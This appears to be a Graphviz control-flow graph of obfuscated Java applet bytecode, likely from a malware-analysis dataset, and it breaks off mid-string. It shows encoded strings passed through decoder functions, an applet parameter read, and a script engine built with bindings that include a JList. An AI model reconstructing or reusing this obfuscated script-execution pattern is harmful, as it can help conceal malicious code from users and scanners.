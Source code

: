 digraph "" {
    "r0 := @this: a"
    "load.r r0"
    "r0 := @this: a"->"load.r r0";
    "push \"\u5802\u5dad\ub67c\u6619\u8a53\ua792\uef3a\ub5c5\uda16\u7eb3\u04c3\u4fd7\uc703\u9176\u06e9\u54a3\uad15\u592c\u211c\ude76\u9663\ub92e\u288a\u5ead\ub443\u5f88\u9688\u3b6b\u2c29\u52e2\u0798\uc47c\""
    "load.r r0"->"push \"\u5802\u5dad\ub67c\u6619\u8a53\ua792\uef3a\ub5c5\uda16\u7eb3\u04c3\u4fd7\uc703\u9176\u06e9\u54a3\uad15\u592c\u211c\ude76\u9663\ub92e\u288a\u5ead\ub443\u5f88\u9688\u3b6b\u2c29\u52e2\u0798\uc47c\"";
    "staticinvoke <c: java.lang.String 爜(java.lang.String)>"
    "push \"\u5802\u5dad\ub67c\u6619\u8a53\ua792\uef3a\ub5c5\uda16\u7eb3\u04c3\u4fd7\uc703\u9176\u06e9\u54a3\uad15\u592c\u211c\ude76\u9663\ub92e\u288a\u5ead\ub443\u5f88\u9688\u3b6b\u2c29\u52e2\u0798\uc47c\""->"staticinvoke <c: java.lang.String 爜(java.lang.String)>";
    "staticinvoke <c: java.lang.String dc(java.lang.String)>"
    "staticinvoke <c: java.lang.String 爜(java.lang.String)>"->"staticinvoke <c: java.lang.String dc(java.lang.String)>";
    "virtualinvoke <a: java.lang.String getParameter(java.lang.String)>"
    "staticinvoke <c: java.lang.String dc(java.lang.String)>"->"virtualinvoke <a: java.lang.String getParameter(java.lang.String)>";
    "staticinvoke <d: java.lang.String dc(java.lang.String)>"
    "virtualinvoke <a: java.lang.String getParameter(java.lang.String)>"->"staticinvoke <d: java.lang.String dc(java.lang.String)>";
    "store.r r52"
    "staticinvoke <d: java.lang.String dc(java.lang.String)>"->"store.r r52";
    "store.r r52"->"load.r r0";
    "new javax.swing.JList"
    "load.r r0"->"new javax.swing.JList";
    "dup1.r"
    "new javax.swing.JList"->"dup1.r";
    "push 1"
    "dup1.r"->"push 1";
    "newarray"
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "push 0"
    "dup1.r"->"push 0";
    "new javax.script.ScriptEngineManager"
    "push 0"->"new javax.script.ScriptEngineManager";
    "new javax.script.ScriptEngineManager"->"dup1.r";
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"
    "dup1.r"->"specialinvoke <javax.script.ScriptEngineManager: void <init>()>";
    "push \"\u5802\u5dad\ub67c\u6619\u8a53\ua792\uef3a\ub5c5\uda16\u7eb3\u04c3\u4fd7\uc703\u9177\u06e9\u54a2\uad15\u592c\u211c\ude76\u9663\ub92e\u288a\u5ead\ub443\u5f88\u9688\u3b6a\u2c28\u52e2\u0799\uc47d\""
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"->"push \"\u5802\u5dad\ub67c\u6619\u8a53\ua792\uef3a\ub5c5\uda16\u7eb3\u04c3\u4fd7\uc703\u9177\u06e9\u54a2\uad15\u592c\u211c\ude76\u9663\ub92e\u288a\u5ead\ub443\u5f88\u9688\u3b6a\u2c28\u52e2\u0799\uc47d\"";
    "push \"\u5802\u5dad\ub67c\u6619\u8a53\ua792\uef3a\ub5c5\uda16\u7eb3\u04c3\u4fd7\uc703\u9177\u06e9\u54a2\uad15\u592c\u211c\ude76\u9663\ub92e\u288a\u5ead\ub443\u5f88\u9688\u3b6a\u2c28\u52e2\u0799\uc47d\""->"staticinvoke <c: java.lang.String 爜(java.lang.String)>";
    "staticinvoke <c: java.lang.String 爜(java.lang.String)>"->"staticinvoke <c: java.lang.String dc(java.lang.String)>";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"
    "staticinvoke <c: java.lang.String dc(java.lang.String)>"->"virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"->"dup1.r";
    "interfaceinvoke <javax.script.ScriptEngine: javax.script.Bindings createBindings()> 0"
    "dup1.r"->"interfaceinvoke <javax.script.ScriptEngine: javax.script.Bindings createBindings()> 0";
    "store.r r2"
    "interfaceinvoke <javax.script.ScriptEngine: javax.script.Bindings createBindings()> 0"->"store.r r2";
    "load.r r2"
    "store.r r2"->"load.r r2";
    "push \"\u5802\u5dad\ub67c\u6619\u8a53\ua792\uef3a\ub5c5\uda16\u7eb3\u04c3\u4fd7\uc702\u9177\u06e8\u54a3\uad15\u592c\u211c\ude76\u9663\ub92e\u288a\u5ead\ub443\u5f88\u9688\u3b6a\u2c28\u52e2\u0798\uc47c\uf6e2\u57eb\ude70\uafec\uc199\u8cc3\u06f7\u4252\u515f\u341c\uf6a4\ub692\u3a14\uac20\uc3d4\uf5ba\u708c\u8166\u0c2f\ub76c\ue7fa\uf7b3\u2ea3\u4e8c\ude6c\u541d\u1e84\u49e0\u40ce\u20a6\u06d7\uea4b\ub4a5\u2b96\ubbb8\u5b60\ubf1d\uec48\u97b0\u704b\ua46d\u6368\u037e\u268b\u9ead\u97e0\ue37b\u8b36\u4883\ufa61\uf252\ua854\u18e5\ua0dc\u9615\ucd55\u8cf2\uc191\u1c1a\u6af8\ub07c\u3560\ub99e\u0786\""
    "load.r r2"->"push \"\u5802\u5dad\ub67c\u6619\u8a53\ua792\uef3a\ub5c5\uda16\u7eb3\u04c3\u4fd7\uc702\u9177\u06e8\u54a3\uad15\u592c\u211c\ude76\u9663\ub92e\u288a\u5ead\ub443\u5f88\u9688\u3b6a\u2c28\u52e2\u0798\uc47c\uf6e2\u57eb\ude70\uafec\uc199\u8cc3\u06f7\u4252\u515f\u341c\uf6a4\ub692\u3a14\uac20\uc3d4\uf5ba\u708c\u8166\u0c2f\ub76c\ue7fa\uf7b3\u2ea3\u4e8c\ude6c\u541d\u1e84\u49e0\u40ce\u20a6\u06d7\uea4b\ub4a5\u2b96\ubbb8\u5b60\ubf1d\uec48\u97b0\u704b\ua46d\u6368\u037e\u268b\u9ead\u97e0\ue37b\u8b36\u4883\ufa61\uf252\ua854\u18e5\ua0dc\u9615\ucd55\u8cf2\uc191\u1c1a\u6af8\ub07c\u3560\ub99e\u0786\"";
    "push \"\u5802\u5dad\ub67c\u6619\u8a53\ua792\uef3a\ub5c5\uda16\u7eb3\u04c3\u4fd7\uc702\u9177\u06e8\u54a3\uad15\u592c\u211c\ude76\u9663\ub92e\u288a\u5ead\ub443\u5f88\u9688\u3b6a\u2c28\u52e2\u0798\uc47c\uf6e2\u57eb\ude70\uafec\uc199\u8cc3\u06f7\u4252\u515f\u341c\uf6a4\ub692\u3a14\uac20\uc3d4\uf5ba\u708c\u8166\u0c2f\ub76c\ue7fa\uf7b3\u2ea3\u4e8c\ude6c\u541d\u1e84\u49e0\u40ce\u20a6\u06d7\uea4b\ub4a5\u2b96\ubbb8\u5b60\ubf1d\uec48\u97b0\u704b\ua46d\u6368\u037e\u268b\u9ead\u97e0\ue37b\u8b36\u4883\ufa61\uf252\ua854\u18e5\ua0dc\u9615\ucd55\u8cf2\uc191\u1c1a\u6af8\ub07c\u3560\ub99e\u0786\""->"staticinvoke <c: java.lang.String 爜(java.lang.String)>";
    "staticinvoke <c: java.lang.String 爜(java.lang.String)>"->"staticinvoke <c: java.lang.String dc(java.lang.String)>";
    "staticinvoke <c: java.lang.String dc(java.lang.String)>"->"load.r r0";
    "interfaceinvoke <javax.script.Bindings: java.lang.Object put(java.lang.String,java.lang.Object)> 2"
    "load.r r0"->"interfaceinvoke <javax.script.Bindings: java.lang.Object put(java.lang.String,java.lang.Object)> 2";
    "pop"
    "interfaceinvoke <javax.script.Bindings: java.lang.Object put(java.lang.String,java.lang.Object)> 2"->"pop";
    "new java.lang.StringBuilder"
    "pop"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"\u5802\u5dad\ub67c\u6619\u8a53\ua792\uef3a\ub5c5\uda16\u7eb3\u04c3\u4fd6\uc702\u9176\u06e8\u54a2\uad15\u592c\u211c\ude76\u9663\ub92e\u288a\u5ead\ub443\u5f88\u9688\u3b6b\u2c29\u52e2\u0798\uc47c\uf6e2\u57eb\ude70\uafec\uc199\u8cc3\u06f7\u4252\u515f\u341c\uf6a4\ub693\u3a15\uac20\uc3d4\uf5bb\u708c\u8166\u0c2f\ub76c\ue7fa\uf7b3\u2ea3\u4e8c\ude6c\u541d\u1e84\u49e1\u40cf\u20a7\u06d6\uea4a\ub4a5\u2b96\ubbb8\u5b60\ubf1d\uec48\u97b0\u704b\ua46d\u6369\u037e\u268b\u9eac\u97e0\ue37a\u8b37\u4883\ufa61\uf252\ua854\u18e5\ua0dc\u9615\ucd55\u8cf2\uc191\u1c1a\u6af8\ub07c\u3560\ub99e\u0786\u35b4\u2825\u4731\uf607\ue503\u06e8\u908c\uaf57\u021c\ua25f\u4f7f\u78ef\u6046\udcd2\ubbc4\ua8f8\u85d1\u2349\uc10c\uc112\u84c1\u2b78\uc487\u6120\u7c79\u1218\uba1c\ub62b\ua49e\u90a8\ub90f\u4b93\u8d02\u7b9a\u55bd\u27cb\ub953\uc8e1\u90d5\u553e\u014c\ude84\u2002\u4112\ua90f\uc38f\u3588\u6b2f\u2c79\u726d\u5062\ua56e\u9775\u5bb1\uda3e\u63aa\u58ed\u56fa\u3045\ub853\u3f9a\udd78\u4570\uf55a\u5138\u8a35\u1a6e\u7b88\u5436\u978d\u3c73\u6800\u9806\u6d2d\uc6e3\uabbe\ub535\u90a4\u92e7\u609c\u1364\u345c\u697f\u85d9\ud95b\u6792\u7894\u5d39\udd1d\u0c58\u524e\uf4db\u79e6\u18df\ud978\u92e9\u14b1\uecdc\u987c\u977d\ua712\u3c2d\u749b\u59c6\u7a54\ubfda\uc3d9\u6012\u1aa1\uc6ae\u414b\u29ec\u2dc2\ude97\u336c\ued8f\uf2da\u5aa1\ua14c\u22e0\uf720\ub8fa\ud5b7\u9400\uc140\u5a7d\u27c3\u954b\u00ff\u7c0f\ub3f6\u0ace\u8538\u3ed6\u4de4\u596a\u46d3\u5bce\u2c95\u343b\uae3e\u0630\ue1c3\u8aff\u2ca1\ue64a\u3c04\u59d3\u2f0f\uf54b\udb8f\uc4b2\u8faf\ub2e3\u2060\u185c\u73d7\u8ed5\u7c2b\u141f\u7df7\u3df9\ud8eb\uf7b0\u448b\u4411\ubd21\uac27\ue319\uf8aa\u8c61\u2d2e\u9996\udc97\ub85f\ud5d8\u6a90\u2ec0\ua98e\u37b1\u3c63\u2010\u776f\u9e00\u2eb6\u7d9f\u23a7\u3c36\udf77\u34ad\u7605\u3262\ua095\u6cb0\u12a8\u8e83\u632b\u3019\u7d14\uc58d\u62b1\u2022\uf619\ub21b\u378a\u3342\u526f\u947f\u5feb\u4206\ue59c\uc02d\u2193\u3e83\uf4cc\u55c2\u2bfd\u2ff5\u0d51\u47a4\u9eef\u6240\ub689\uc3f0\u7787\u0d36\u8718\u4afc\uf9e1\u9121\uf872\ube49\uf11e\u7439\u10a4\ua2fd\ub94a\u275a\u21f1\u56ba\u834e\u345b\u582c\u7a9a\u4224\uecfa\ud468\u1b5f\ufaed\u6790\u1bbe\u9c2e\u9f2b\uaec4\u8016\u811b\uae8f\u98f9\u66a8\u5d0e\ub0db\ufddf\ubcfe\u8fe7\u1c8b\u9571\ubeb2\u3f3f\ub255\u04b1\u661e\u239f\u334d\ue1cb\u2c55\u3c0d\u9f85\u8a86\u0638\u8bb0\u6df0\u17db\ufb65\u37ee\u5fae\u3a80\u88be\ue29e\u3a9c\u5e8d\u51d5\u9b10\u9a1b\ucf2f\uf8a6\u2305\u0f62\u4a02\ua92a\u11ae\u876c\u4825\u2668\u45dd\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"\u5802\u5dad\ub67c\u6619\u8a53\ua792\uef3a\ub5c5\uda16\u7eb3\u04c3\u4fd6\uc702\u9176\u06e8\u54a2\uad15\u592c\u211c\ude76\u9663\ub92e\u288a\u5ead\ub443\u5f88\u9688\u3b6b\u2c29\u52e2\u0798\uc47c\uf6e2\u57eb\ude70\uafec\uc199\u8cc3\u06f7\u4252\u515f\u341c\uf6a4\ub693\u3a15\uac20\uc3d4\uf5bb\u708c\u8166\u0c2f\ub76c\ue7fa\uf7b3\u2ea3\u4e8c\ude6c\u541d\u1e84\u49e1\u40cf\u20a7\u06d6\uea4a\ub4a5\u2b96\ubbb8\u5b60\ubf1d\uec48\u97b0\u704b\ua46d\u6369\u037e\u268b\u9eac\u97e0\ue37a\u8b37\u4883\ufa61\uf252\ua854\u18e5\ua0dc\u9615\ucd55\u8cf2\uc191\u1c1a\u6af8\ub07c\u3560\ub99e\u0786\u35b4\u2825\u4731\uf607\ue503\u06e8\u908c\uaf57\u021c\ua25f\u4f7f\u78ef\u6046\udcd2\ubbc4\ua8f8\u85d1\u2349\uc10c\uc112\u84c1\u2b78\uc487\u6120\u7c79\u1218\uba1c\ub62b\ua49e\u90a8\ub90f\u4b93\u8d02\u7b9a\u55bd\u27cb\ub953\uc8e1\u90d5\u553e\u014c\ude84\u2002\u4112\ua90f\uc38f\u3588\u6b2f\u2c79\u726d\u5062\ua56e\u9775\u5bb1\uda3e\u63aa\u58ed\u56fa\u3045\ub853\u3f9a\udd78\u4570\uf55a\u5138\u8a35\u1a6e\u7b88\u5436\u978d\u3c73\u6800\u9806\u6d2d\uc6e3\uabbe\ub535\u90a4\u92e7\u609c\u1364\u345c\u697f\u85d9\ud95b\u6792\u7894\u5d39\udd1d\u0c58\u524e\uf4db\u79e6\u18df\ud978\u92e9\u14b1\uecdc\u987c\u977d\ua712\u3c2d\u749b\u59c6\u7a54\ubfda\uc3d9\u6012\u1aa1\uc6ae\u414b\u29ec\u2dc2\ude97\u336c\ued8f\uf2da\u5aa1\ua14c\u22e0\uf720\ub8fa\ud5b7\u9400\uc140\u5a7d\u27c3\u954b\u00ff\u7c0f\ub3f6\u0ace\u8538\u3ed6\u4de4\u596a\u46d3\u5bce\u2c95\u343b\uae3e\u0630\ue1c3\u8aff\u2ca1\ue64a\u3c04\u59d3\u2f0f\uf54b\udb8f\uc4b2\u8faf\ub2e3\u2060\u185c\u73d7\u8ed5\u7c2b\u141f\u7df7\u3df9\ud8eb\uf7b0\u448b\u4411\ubd21\uac27\ue319\uf8aa\u8c61\u2d2e\u9996\udc97\ub85f\ud5d8\u6a90\u2ec0\ua98e\u37b1\u3c63\u2010\u776f\u9e00\u2eb6\u7d9f\u23a7\u3c36\udf77\u34ad\u7605\u3262\ua095\u6cb0\u12a8\u8e83\u632b\u3019\u7d14\uc58d\u62b1\u2022\uf619\ub21b\u378a\u3342\u526f\u947f\u5feb\u4206\ue59c\uc02d\u2193\u3e83\uf4cc\u55c2\u2bfd\u2ff5\u0d51\u47a4\u9eef\u6240\ub689\uc3f0\u7787\u0d36\u8718\u4afc\uf9e1\u9121\uf872\ube49\uf11e\u7439\u10a4\ua2fd\ub94a\u275a\u21f1\u56ba\u834e\u345b\u582c\u7a9a\u4224\uecfa\ud468\u1b5f\ufaed\u6790\u1bbe\u9c2e\u9f2b\uaec4\u8016\u811b\uae8f\u98f9\u66a8\u5d0e\ub0db\ufddf\ubcfe\u8fe7\u1c8b\u9571\ubeb2\u3f3f\ub255\u04b1\u661e\u239f\u334d\ue1cb\u2c55\u3c0d\u9f85\u8a86\u0638\u8bb0\u6df0\u17db\ufb65\u37ee\u5fae\u3a80\u88be\ue29e\u3a9c\u5e8d\u51d5\u9b10\u9a1b\ucf2f\uf8a6\u2305\u0f62\u4a02\ua92a\u11ae\u876c\u4825\u2668\u45dd\"";
    "push \"\u5802\u5dad\ub67c\u6619\u8a53\ua792\uef3a\ub5c5\uda16\u7eb3\u04c3\u4fd6\uc702\u9176\u06e8\u54a2\uad15\u592c\u211c\ude76\u9663\ub92e\u288a\u5ead\ub443\u5f88\u9688\u3b6b\u2c29\u52e2\u0798\uc47c\uf6e2\u57eb\ude70\uafec\uc199\u8cc3\u06f7\u4252\u515f\u341c\uf6a4\ub693\u3a15\uac20\uc3d4\uf5bb\u708c\u8166\u0c2f\ub76c\ue7fa\uf7b3\u2ea3\u4e8c\ude6c\u541d\u1e84\u49e1\u40cf\u20a7\u06d6\uea4a\ub4a5\u2b96\ubbb8\u5b60\ubf1d\uec48\u97b0\u704b\ua46d\u6369\u037e\u268b\u9eac\u97e0\ue37a\u8b37\u4883\ufa61\uf252\ua854\u18e5\ua0dc\u9615\ucd55\u8cf2\uc191\u1c1a\u6af8\ub07c\u3560\ub99e\u0786\u35b4\u2825\u4731\uf607\ue503\u06e8\u908c\uaf57\u021c\ua25f\u4f7f\u78ef\u6046\udcd2\ubbc4\ua8f8\u85d1\u2349\uc10c\uc112\u84c1\u2b78\uc487\u6120\u7c79\u1218\uba1c\ub62b\ua49e\u90a8\ub90f\u4b93\u8d02\u7b9a\u55bd\u27cb\ub953\uc8e1\u90d5\u553e\u014c\ude84\u2002\u4112\ua90f\uc38f\u3588\u6b2f\u2c79\u726d\u5062\ua56e\u9775\u5bb1\uda3e\u63aa\u58ed\u56fa\u3045\ub853\u3f9a\udd78\u4570\uf55a\u5138\u8a35\u1a6e\u7b88\u5436\u978d\u3c73\u6800\u9806\u6d2d\uc6e3\uabbe\ub535\u90a4\u92e7\u609c\u1364\u345c\u697f\u85d9\ud95b\u6792\u7894\u5d39\udd1d\u0c58\u524e\uf4db\u79e6\u18df\ud978\u92e9\u14b1\uecdc\u987c\u977d\ua712\u3c2d\u749b\u59c6\u7a54\ubfda\uc3d9\u6012\u1aa1\uc6ae\u414b\u29ec\u2dc2\ude97\u336c\ued8f\uf2da\u5aa1\ua14c\u22e0\uf720\ub8fa\ud5b7\u9400\uc140\u5a7d\u27c3\u954b\u00ff\u7c0f\ub3f6\u0ace\u8538\u3ed6\u4de4\u596a\u46d3\u5bce\u2c95\u343b\uae3e\u0630\ue1c3\u8aff\u2ca1\ue64a\u3c04\u59d3\u2f0f\uf54b\udb8f\uc4b2\u8faf\ub2e3\u2060\u185c\u73d7\u8ed5\u7c2b\u141f\u7df7\u3df9\ud8eb\uf7b0\u448b\u4411\ubd21\uac27\ue319\uf8aa\u8c61\u2d2e\u9996\udc97\ub85f\ud5d8\u6a90\u2ec0\ua98e\u37b1\u3c63\u2010\u776f\u9e00\u2eb6\u7d9f\u23a7\u3c36\udf77\u34ad\u7605\u3262\ua095\u6cb0\u12a8\u8e83\u632b\u3019\u7d14\uc58d\u62b1\u2022\uf619\ub21b\u378a\u3342\u526f\u947f\u5feb\u4206\ue59c\uc02d\u2193\u3e83\uf4cc\u55c2\u2bfd\u2ff5\u0d51\u47a4\u9eef\u6240\ub689\uc3f0\u7787\u0d36\u8718\u4afc\uf9e1\u9121\uf872\ube49\uf11e\u7439\u10a4\ua2fd\ub94a\u275a\u21f1\u56ba\u834e\u345b\u582c\u7a9a\u4224\uecfa\ud468\u1b5f\ufaed\u6790\u1bbe\u9c2e\u9f2b\uaec4\u8016\u811b\uae8f\u98f9\u66a8\u5d0e\ub0db\ufddf\ubcfe\u8fe7\u1c8b\u9571\ubeb2\u3f3f\ub255\u04b1\u661e\u239f\u334d\ue1cb\u2c55\u3c0d\u9f85\u8a86\u0638\u8bb0\u6df0\u17db\ufb65\u37ee\u5fae\u3a80\u88be\ue29e\u3a9c\u5e8d\u51d5\u9b10\u9a1b\ucf2f\uf8a6\u2305\u0f62\u4a02\ua92a\u11ae\u876c\u4825\u2668\u45dd\""->"staticinvoke <c: java.lang.String 爜(java.lang.String)>";
    "staticinvoke <c: java.lang.String 爜(java.lang.String)>"->"staticinvoke <c: java.lang.String dc(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "staticinvoke <c: java.lang.String dc(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\u5844\u5dfc\ub63e\u6609\u8a1b\ua79f\uef2d\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\u5844\u5dfc\ub63e\u6609\u8a1b\ua79f\uef2d\"";
    "push \"\u5844\u5dfc\ub63e\u6609\u8a1b\ua79f\uef2d\""->"staticinvoke <c: java.lang.String 爜(java.lang.String)>";
    "staticinvoke <c: java.lang.String 爜(java.lang.String)>"->"staticinvoke <c: java.lang.String dc(java.lang.String)>";
    "staticinvoke <c: java.lang.String dc(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r52"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r52";
    "load.r r52"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\u5815\u5da6\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\u5815\u5da6\"";
    "push \"\u5815\u5da6\""->"staticinvoke <c: java.lang.String 爜(java.lang.String)>";
    "staticinvoke <c: java.lang.String 爜(java.lang.String)>"->"staticinvoke <c: java.lang.String dc(java.lang.String)>";
    "staticinvoke <c: java.lang.String dc(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\u5802\u5dad\ub67c\u6619\u8a53\ua792\uef3a\ub5c5\uda16\u7eb3\u04c3\u4fd7\uc703\u9177\u06e9\u54a2\uad15\u592c\u211c\ude76\u9663\ub92e\u288a\u5ead\ub443\u5f88\u9688\u3b6b\u2c28\u52e2\u0798\uc47d\uf6e2\u57eb\ude70\uafec\uc199\u8cc3\u06f7\u4252\u515f\u341c\uf6a4\ub692\u3a14\uac21\uc3d5\uf5ba\u708c\u8166\u0c2f\ub76c\ue7fa\uf7b3\u2ea3\u4e8c\ude6c\u541d\u1e84\u49e0\u40cf\u20a7\u06d7\uea4a\ub4a5\u2b96\ubbb8\u5b60\ubf1d\uec48\u97b0\u704b\ua46d\u6369\u037e\u268b\u9eac\u97e0\ue37a\u8b37\u4883\ufa61\uf252\ua854\u18e5\ua0dc\u9615\ucd55\u8cf2\uc191\u1c1a\u6af9\ub07d\u3560\ub99e\u0786\u35b4\u2825\u4731\uf607\ue503\u06e8\u908c\uaf57\u021c\ua25f\u4f7f\u78ef\u6047\udcd3\ubbc5\ua8f8\u85d1\u2349\uc10c\uc112\u84c1\u2b78\uc487\u6120\u7c79\u1218\uba1d\ub62a\ua49f\u90a9\ub90f\u4b92\u8d02\u7b9a\u55bd\u27cb\ub953\uc8e1\u90d5\u553e\u014c\ude84\u2002\u4113\ua90f\uc38f\u3589\u6b2e\u2c79\u726d\u5062\ua56e\u9775\u5bb1\uda3e\u63aa\u58ed\u56fb\u3045\ub852\u3f9b\udd79\u4570\uf55a\u5138\u8a35\u1a6e\u7b88\u5436\u978d\u3c73\u6800\u9806\u6d2d\uc6e2\uabbf\ub534\u90a4\u92e6\u609c\u1364\u345c\u697f\u85d9\ud95b\u6792\u7894\u5d39\udd1d\u0c58\u524e\uf4da\u79e6\u18de\ud979\u92e8\u14b1\uecdc\u987c\u977d\ua712\u3c2d\u749b\u59c6\u7a54\ubfda\uc3d9\u6013\u1aa1\uc6af\u414b\u29ec\u2dc2\ude97\u336c\ued8f\uf2da\u5aa1\ua14c\u22e0\uf720\ub8fb\ud5b7\u9400\uc141\u5a7d\u27c3\u954a\u00ff\u7c0f\ub3f6\u0ace\u8538\u3ed6\u4de4\u596a\u46d3\u5bce\u2c95\u343b\uae3e\u0630\ue1c2\u8afe\u2ca1\ue64a\u3c04\u59d3\u2f0f\uf54b\udb8f\uc4b2\u8faf\ub2e3\u2060\u185d\u73d6\u8ed5\u7c2b\u141f\u7df7\u3df9\ud8eb\uf7b0\u448b\u4411\ubd21\uac27\ue319\uf8ab\u8c61\u2d2e\u9996\udc97\ub85f\ud5d8\u6a90\u2ec0\ua98e\u37b1\u3c63\u2010\u776f\u9e00\u2eb6\u7d9f\u23a7\u3c37\udf77\u34ad\u7605\u3262\ua095\u6cb0\u12a8\u8e83\u632b\u3019\u7d14\uc58d\u62b1\u2022\uf619\ub21a\u378a\u3342\u526f\u947e\u5feb\u4206\ue59c\uc02d\u2193\u3e83\uf4cc\u55c2\u2bfd\u2ff5\u0d51\u47a5\u9eee\u6241\ub689\uc3f1\u7787\u0d36\u8718\u4afc\uf9e1\u9121\uf872\ube49\uf11e\u7439\u10a5\ua2fc\ub94b\u275b\u21f1\u56ba\u834e\u345b\u582c\u7a9a\u4224\uecfa\ud468\u1b5f\ufaed\u6790\u1bbe\u9c2e\u9f2a\uaec4\u8017\u811a\uae8f\u98f9\u66a8\u5d0e\ub0db\ufddf\ubcfe\u8fe7\u1c8b\u9570\ubeb2\u3f3f\ub254\u04b1\u661f\u239e\u334d\ue1cb\u2c55\u3c0d\u9f85\u8a86\u0638\u8bb0\u6df0\u17da\ufb65\u37ef\u5faf\u3a81\u88be\ue29e\u3a9c\u5e8d\u51d5\u9b10\u9a1b\ucf2f\uf8a6\u2305\u0f62\u4a02\ua92a\u11ae\u876d\u4825\u2668\u45dc\u2561\u66fc\uc0d9\ua2a7\u0aa0\u48fc\ua549\u4215\u5faa\u72f7\uf2ba\ud9df\u429d\u335c\u9a28\u93f4\ubca5\u1fa0\u75b9\u824d\uf2db\u2fbe\u8350\u7900\u5b39\ud574\u56f1\ua16b\uc509\uae6f\ua6b2\u3991\u1b14\ua8a2\ufc53\u89aa\ue408\u81c2\ua91b\ue170\u1851\u923a\u8dc6\u1497\u4e77\u09b5\ud566\u51ba\u3624\u6644\u2200\ud48f\ubb94\u9bde\u3348\u215f\u0149\ucc4b\uca66\u723a\u3f8a\u5eea\ub25e\u57a1\uc7dc\u5628\ubcb0\u0ce1\ua2f9\ua352\u4c71\ud966\ub191\u862a\u84bf\ub623\u7715\ue77c\u8c5c\u072c\uc883\u6471\uc7ab\u2c97\ubd0b\u8e86\u49ea\u8614\u169a\u6e48\u9436\u71c5\uc8a7\ud13a\u0d90\u0efe\u447c\u6d07\u01ba\u8490\u4fa9\u4be1\ub007\ua793\u5736\uf1b1\uf34a\u1a00\ub7e3\u79fe\uadc2\uf1a2\ue499\u448f\u3bce\u8795\u4480\u4c00\u7aa4\u26f6\u1793\u578f\u7113\ua270\uf700\uffa9\uaae5\uf3a4\uc0ce\u3833\u47fe\ufde6\ua985\ubcfd\u77fa\ubafc\u3f57\u6c9e\uf9cd\u6b23\ub159\u440e\u82bf\u4d00\ud99e\uc22f\u3eab\uf1ce\u3c99\u918f\u59b0\uadee\u4fe0\u017e\u4940\udf10\u012b\u7c91\uf4cf\uc2ac\uc229\u9014\u880b\ud65c\u7693\u8567\u5f6b\uac28\uaf13\u044a\u62ee\u5a97\u1386\uece1\u43fe\ue297\u1360\u3122\ue81d\u81ed\u3acd\u2093\u0d06\ud640\u070c\u889b\ubfa7\u8841\u4bb1\u0a16\u2b45\u7169\ue831\uaba4\u958f\u5efc\u13ca\u7765\u9605\u2741\u6722\uc405\u89b2\u17ce\u1fd5\ucafb\u014a\ucd7c\u95f3\u40ff\u9d89\ua3fe\uc207\u1105\u103e\ua5d4\u1922\u6798\uffac\u3d97\u040d\u2b21\uc8e8\u12d2\u1875\ua84c\u80dd\u9d82\u83e2\u6d52\u0780\u757f\u781d\uf0ba\ua3a9\u13b1\uad51\u20e2\u640a\u881e\uf67e\u7f07\uef44\uac8d\uf979\u8d3a\ufbd1\ua107\u84dc\u55b9\u5366\ue408\u6e00\u2b30\u95e8\u0fcb\u56ab\u712d\ud9bd\u573d\u3240\u5ec5\ue886\u404e\u3080\ua266\u9c41\u05a3\ub1fc\u74dc\u6dd4\u91eb\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\u5802\u5dad\ub67c\u6619\u8a53\ua792\uef3a\ub5c5\uda16\u7eb3\u04c3\u4fd7\uc703\u9177\u06e9\u54a2\uad15\u592c\u211c\ude76\u9663\ub92e\u288a\u5ead\ub443\u5f88\u9688\u3b6b\u2c28\u52e2\u0798\uc47d\uf6e2\u57eb\ude70\uafec\uc199\u8cc3\u06f7\u4252\u515f\u341c\uf6a4\ub692\u3a14\uac21\uc3d5\uf5ba\u708c\u8166\u0c2f\ub76c\ue7fa\uf7b3\u2ea3\u4e8c\ude6c\u541d\u1e84\u49e0\u40cf\u20a7\u06d7\uea4a\ub4a5\u2b96\ubbb8\u5b60\ubf1d\uec48\u97b0\u704b\ua46d\u6369\u037e\u268b\u9eac\u97e0\ue37a\u8b37\u4883\ufa61\uf252\ua854\u18e5\ua0dc\u9615\ucd55\u8cf2\uc191\u1c1a\u6af9\ub07d\u3560\ub99e\u0786\u35b4\u2825\u4731\uf607\ue503\u06e8\u908c\uaf57\u021c\ua25f\u4f7f\u78ef\u6047\udcd3\ubbc5\ua8f8\u85d1\u2349\uc10c\uc112\u84c1\u2b78\uc487\u6120\u7c79\u1218\uba1d\ub62a\ua49f\u90a9\ub90f\u4b92\u8d02\u7b9a\u55bd\u27cb\ub953\uc8e1\u90d5\u553e\u014c\ude84\u2002\u4113\ua90f\uc38f\u3589\u6b2e\u2c79\u726d\u5062\ua56e\u9775\